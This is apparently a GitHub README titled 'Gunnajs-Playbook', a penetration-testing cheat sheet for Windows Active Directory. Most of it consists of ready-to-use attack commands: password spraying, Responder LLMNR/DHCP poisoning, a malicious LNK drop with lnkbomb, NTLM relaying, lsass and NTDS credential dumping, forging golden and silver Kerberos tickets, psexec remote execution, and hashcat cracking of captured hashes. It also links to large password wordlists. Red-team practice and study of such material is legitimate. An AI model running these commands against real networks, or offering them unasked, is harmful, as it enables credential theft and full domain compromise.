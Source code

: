 https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory

# Gunnajs-Playbook
How to pentest like a Gunnaj

![alt text](https://github.com/GunzyPunzy/Gunnajs-Playbook/blob/main/anfader.jpg)

# Toolbox
### NMAP
https://nmap.org/

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
<details>
  <summary> Installation </summary> 

  ```bash
  git clone https://github.com/lefayjey/linWinPwn
  cd linWinPwn; chmod +x linWinPwn.sh
  ```
  ```bash
  chmod +x install.sh
  ./install.sh
  ```  
</details>

### BloodHound
https://github.com/BloodHoundAD/BloodHound
<details>
  <summary> Installation </summary> 
  
  ```bash
  apt-get install bloodhound
  ```
  ```bash
  neo4j console
  ```
  #### Navigate to http://localhost:7474/ 
</details>

### Responder
https://github.com/lgandx/Responder

### lnkbomb
https://github.com/dievus/lnkbomb
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip install pysmb==1.2.2
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/dievus/lnkbomb
  ```
</details>

### CrackMapExec
https://github.com/Porchetta-Industries/CrackMapExec

### Impacket
https://github.com/fortra/impacket

### pypykatz
https://github.com/skelsec/pypykatz
<details>
  <summary> Installation </summary> 

  #### Install prerequirements
  ```bash
  pip3 install minidump minikerberos aiowinreg msldap winacl
  ```
  #### Clone this repo
  ```bash
  git clone https://github.com/skelsec/pypykatz.git
  cd pypykatz
  ```
  #### Install it
  ```bash
  python3 setup.py install
  ```
</details>

### breach-parse
https://github.com/hmaverickadams/breach-parse

### PRET
https://github.com/RUB-NDS/PRET
<details>
  <summary> Installation </summary> 
  
  ```bash
  git clone https://github.com/RUB-NDS/PRET && cd PRET
  ```
  ```bash
  python -m pip install colorama pysnmP
  ```
</details>

## Wordlists
### Generate wordlist
https://zzzteph.github.io/weakpass/

### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)

### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021
https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)
 
# Network enumeration
<details>
  <summary> NMAP </summary> 
  
  ### Nmap
  #### Ping scan
  ```bash
  sudo nmap -sP -p -oN <output.txt> <IP/mask>
  ```

  #### Full scan
  ```bash
  sudo nmap -PN -sC -sV -p- -oN <output.txt> <IP/mask>
  ```

  #### smb vuln scan
  ```bash
  sudo nmap -PN --script smb-vuln* -p139,445 -oN <output.txt> <IP/mask>
  ```

  ### Find DC IP
  #### Show domain name and DNS
  ```bash
  sudo mncli dev show eth0
  ```

  #### Show DC IP
  ```bash
  nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
  ```

  #### Show DC controllers in cmd
  ```bash
  nltest /dclist:<domainname>
  ```
</details>

# Acitve directory enumeration
<details>
  <summary> linWinPwn </summary> 
  
  ### Unauthenticated
  - Module ad_enum
      - RID bruteforce using crackmapexec
      - Anonymous enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, ldeep
      - Pre2k authentication check on collected list of computers
  - Module kerberos
      - kerbrute user spray
      - ASREPRoast using collected list of users (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Blind Kerberoast
      - CVE-2022-33679 exploit
  - Module scan_shares
      - SMB shares anonymous enumeration on identified servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on identified servers
      - Check for ms17-010, zerologon, petitpotam, nopac, smb-sigining, ntlmv1, runasppl weaknesses
  ```bash
   sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
  ```

  ### With AD-user credentials 
  - DNS extraction using adidnsdump
  - Module ad_enum
      - BloodHound data collection
      - Enumeration using crackmapexec, enum4linux-ng, ldapdomaindump, windapsearch, SilentHound, ldeep
          - Users
          - MachineAccountQuota
          - Password Policy
          - Users' descriptions containing "pass"
          - ADCS
          - Subnets
          - GPP Passwords
          - Check if ldap-signing is enforced, check for LDAP Relay
          - Delegation information
      - crackmapexec find accounts with user=pass 
      - Pre2k authentication check on domain computers
      - Extract ADCS information using certipy and certi.py

  - Module kerberos
      - kerbrute find accounts with user=pas
      - ASREPRoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
      - Targeted Kerberoasting (and cracking hashes using john-the-ripper and the rockyou wordlist)
  - Module scan_shares
      - SMB shares enumeration on all domain servers using smbmap and cme's spider_plus
      - KeePass files and processes discovery on all domain servers
  - Module vuln_checks
      - Enumeration for WebDav, dfscoerce, shadowcoerce and Spooler services on all domain servers
      - Check for ms17-010, ms14-068, zerologon, petitpotam, nopac, smb-signing, ntlmv1, runasppl weaknesses
  - Module mssql_enum
      - Check mssql privilege escalation paths
  ```bash
  sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
  ```
</details>
  
## Password spray
### Spray a password on a user list
```bash

crackmapexec smb <Domain_Controller_IP> -u users.txt -p <password> --continue-on-success
```
# Poisining 
<details>
  <summary> Responder </summary> 
  
  ### Kickstart responder
  ```bash
  responder -I eth0
  ```

  ### Force lm downgrade
  ```bash
  responder -I eth0 --lm
  ```
  
  ### DHCP poisining
  ```bash
  responder -I eth0 -d
  ```
 </details>
 <details>
  <summary> lnkbomb </summary> 
  
  ### Create a lnk file for a share with read/write rights
  ```bash
  python3 lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows
  ```
   
  ### Remove the lnk file
  ```basb
  python3 lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u <AD_user> -p <AD_password> -n <server_name> --windows -r dicnwdsebl.url
  ```
    
</details>
<details>
  <summary> Crackmapexec NTLM-relay </summary>   

  ### Evaluate no smb-signing and create an IP txt file for TLMRelayx
  ```bash
  crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
  ```

  ### NTLMRelayx
  ```bash
  sudo python3 ntlmrelayx.py -smb2support -tf <outputIPs.txt>
  ```

  ### Disbale SMB and HTTP in Responder.conf
  ```bash
  [Responder Core]

  ; Servers to start
  SQL = On
  SMB = Off
  RDP = On
  Kerberos = On
  FTP = On
  POP = On
  SMTP = On
  IMAP = On
  HTTP = Off
  HTTPS = On
  DNS = On
  LDAP = On
  DCERPC = On
  WINRM = On
  SNMP = Off
  ```
</details>

# Credential dumping
### With administrator Account (using password, NTLM hash or Kerberos ticket)
- All of the "Standard User" checks
- Module pwd_dump
    - LAPS and gMSA dump
    - secretsdump on all domain servers
    - NTDS dump using impacket, crackmapexec and certsync
    - Dump lsass on all domain servers using: procdump, lsassy, nanodump, handlekatz, masky 
    - Extract backup keys using DonPAPI, HEKATOMB
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -d <AD_domain> -u <AD_user> -p <AD_password> or <hash_LM:NT]> or <kerbticket[./krb5cc_ticket]> -o <output_dir>
```
## pypykatz
### Examine lsass dump
```bash
pypykatz lsa minidump lsass.DMP
```

# golden and silver tickets
#### Get user SID value by using the Windows Terminal
```cmd
wmic useraccount where name="USER" get sid
```

#### Silver ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> -spn <service>/<AD_domain>l <user>
```
#### Golden ticket
```bash
python3 ticketer.py -nthash <nthash> -domain-sid <domain-sid> -domain <AD_domain> -dc-ip <Domain_Controller_IP> <user>
```
#### Set the ticket for impacket use
```bash
export KRB5CCNAME=<TGS_ccache_file>
```

#### List tickets
```bash
klist
```

#### Execute remote commands with any of the following by using the TGT
```bash
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<AD_domain>
```

### Unmount share
```bash
sudo umount <./folder>
```

### Search for keywords in files
```bash
grep -i <keyword> *
```

# Printers
<details>
  <summary> PRET </summary> 

  ### Nmap printers
  ```bash
  nmap -p 9100 <IP/mask>
  ```
  ### cheat sheet
  ```bash
  http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
  ```
  ### Kickstart PRET 
  ```bash
  pret.py target {ps,pjl,pcl}
  ```
</details>

## Hash cracking
<details>
  <summary> Hashcat </summary> 
  
  ### LM
  ```bash
  hashcat64.exe -m 3000 -a 3 LM-hashes.txt -o cracked.txt
  ```

  ### NTLM
  ```bash
  hashcat64.exe -m 1000 -a 3 NTLM-hashes.txt -o cracked.txt
  ```

  ### NTLMv1
  ```bash
  hashcat64.exe -m 5500 -a 3 NTLMv1-hashes.txt -o cracked.txt
  ```

  ### NTLMv2
  ```bash
  hashcat64.exe -m 5600 -a 0 NTLMv2-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos ASREP
  ```bash
  hashcat64.exe -m 18200 -a 0 asrep-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS
  ```bash
  hashcat64.exe -m 13100 -a 0 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES128
  ```bash
  hashcat64.exe -m 19600 -a 0 krb5tgsaes128-hashes.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 TGS AES256
  ```bash
  hashcat64.exe -m 19700  -a 0 krb5tgsaes256.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```bash
  hashcat64.exe -m 19800  -a 0 krb5tetype17.txt <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```bash
  hashcat64.exe -m 19900  -a 0 krb5tetype18.txt <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```bash
  hashcat64.exe -m 2100 -a 0 mscache2-hashes.txt <passlist.txt> -o cracked.txt
  ```
</details>
